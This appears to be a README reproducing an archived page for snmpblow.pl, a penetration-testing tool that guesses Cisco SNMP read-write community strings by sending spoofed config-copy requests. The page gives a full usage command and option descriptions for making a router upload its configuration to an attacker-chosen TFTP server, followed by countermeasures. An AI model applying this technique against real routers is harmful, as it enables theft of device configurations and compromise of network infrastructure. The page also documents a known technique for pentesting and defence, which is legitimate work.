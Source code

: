 # snmpblow

This is a copy of snmpblow.pl, found via archive.org from http://www.scanit.be/uploads/snmpblow.pl

The contents of www.scanit.be/en_US/snmpblow.html follows:

snmpblow - blind Cisco IOS SNMP RW community brute forcer
Author:
Alexandre Bezroutchko

Description:
This script is useful to deal with Cisco routers in a following situation:

    SNMP RW (read-write) access is enabled
    Access list is configured to  accept SNMP requests from a trusted sources only, but you know (or can guess) a trusted IP address
    You are able to spoof source IP address of SNMP requests

In a presence of the access list, plain SNMP community string brute forcing with source IP address spoofing is rather useless, because you will never see responses to your requests. This script opts for guessing RW community string and makes use of Moving Files and Images Between a Router and TFTP Server via SNMP feature of Cisco IOS. The script sends a bulk of SNMP Cisco IOS config-copy requests with forged source IP address and user-specified list of community strings. If source IP address and community string is right, IOS will upload its config to the specified TFTP server.

This is by no means a new security vulnerability, just a useable implementation of a known technique.

In Scanit, we occasionally use this tool during internal network penetration tests to demonstrate an impact of a compromise of a single router: typically all network devices in the enterprise have the same SNMP community and access lists settings, therefore compromise of a single device likely to lead to compromise of the whole infrastructure. To know more about this and other security issues, you may consider attending our hacking course.

Usage:

$ snmpblow.pl -s 192.168.1.1 -d 1.2.3.4 -t 5.6.7.8 -f cfg.txt < communities.txt

The tool is written in Perl and requires Net::RawIP and Net::SNMP modules. If you *NIX distribution does not have it by default, you may get it from CPAN. Tested on Linux and FreeBSD, not tested on Windows. It requires root privileges to send packets with spoofed source IP.

Options:
Expects a list of community strings on stdin.
 -s   	Source IP address. To bypass SNMP access lists, you have to know (or guess) the source IP address from which the target Cisco will accept SNMP requests. Source IP address brute forcing is not supported.
 -S 	Source UDP port (optional, by default - 161)
 -d 	Destination IP address. Multiple targets or network ranges are not supported.
 -D 	Destination UDP port (optional, by default - 161)
 -t 	IP address of the TFTP server to send the config to. When you get the community right, the target will upload its config to the specified TFTP server. Ensure the server is running and accepting uploads of file you specify with -f command line switch. Note that some TFTP servers (notably *NIX ones require file to exist and be world-writeable to allow file uploads).
 -f 	File name to use for TFTP file uploads.

Download:
Get it here. 

Countermeasures:
Consider the following countermeasures to prevent abuse of SNMP interface of your routers.

    If SNMP RW access is not being used, by far the best solution is to disable it completely. Attackers will not be able to send config-copy requests to the router, but it may affect router management tools using the same technique.
    Next thing to consider is restricting TFTP traffic: add the access lists permitting TFTP to/from trusted IP addresses only.
    Anti-spoofing protection is a good idea as well. It will work in a situation when malicious traffic is coming from one network interface, and trusted one -- from another. This is usually the case for edge routers. However, when talking about internal attacks, this protection is not necessarily efficient. Anti-spoofing can be implemented with access lists or unicast reverse-path forwarding.


